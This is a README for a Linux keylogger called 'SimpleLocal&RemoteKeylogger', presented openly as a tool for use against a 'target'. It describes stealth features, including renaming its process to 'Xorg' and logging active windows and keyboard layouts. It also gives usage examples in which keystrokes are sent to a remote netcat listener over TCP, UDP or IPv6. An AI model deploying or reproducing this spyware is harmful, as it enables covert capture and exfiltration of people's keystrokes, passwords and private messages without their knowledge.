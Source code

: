 # SimpleLocal&RemoteKeylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##SYNOPSIS:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:                  If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:                   It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:   It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLES:

- TCP:
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- UDP:
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- IPv6:
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```
##NOTES:
####Supported keyboards:
- QWERTY: us, es, it. 
- AZERTY: fr.
- QWERTZ: de.
- DVORAK: us.
- COLEMAK
- default: qwerty-us


